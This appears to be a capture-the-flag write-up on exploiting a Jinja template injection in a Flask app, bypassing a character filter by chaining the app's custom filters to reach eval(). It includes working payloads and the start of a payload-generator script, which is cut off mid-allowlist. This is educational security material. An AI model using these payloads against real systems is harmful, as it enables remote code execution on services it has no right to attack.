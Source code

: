To sump it all, there is a template injection but there is a filter on it. There are useful custom made filters on the app which we can use to bypass the check and it should be less than 161. Easy enough.




# Jinja filters

Custom made filters are explained like below in the original flask documentation.

https://flask.palletsprojects.com/en/2.0.x/templating/#registering-filters
![](https://i.imgur.com/6sxrNXg.png)


So with a `|` we can call the defined filters, nice.


# Exploit

We can verify that our template gets rendered.

`{{1-1}}`

![](https://i.imgur.com/3JCUtnE.png)




With the template below we can bypass the filter and print k.
```
{{(111-4)|ch}}
```

![](https://i.imgur.com/dfzLD7I.png)


We can also chain filters,
```
{{((111-1)|ch+(111-4)|ch)|e}}
```

Don't forget to url encode the payload,

![](https://i.imgur.com/MxqHEIa.png)

Nice ! We reached to `eval()`.

So we can automate this and write a script to automatically bypass the filter and generate payloads.


I know, spagetti code.
```python
def chrify(x):
    return f"({x})|ch"

allowlist = [
        "c",
        "{",
        "}",
        "d",
        "6",
        "l",
        "(",
        "b",
        "o",
        "r",
        ")",
        '"',
        "1",
```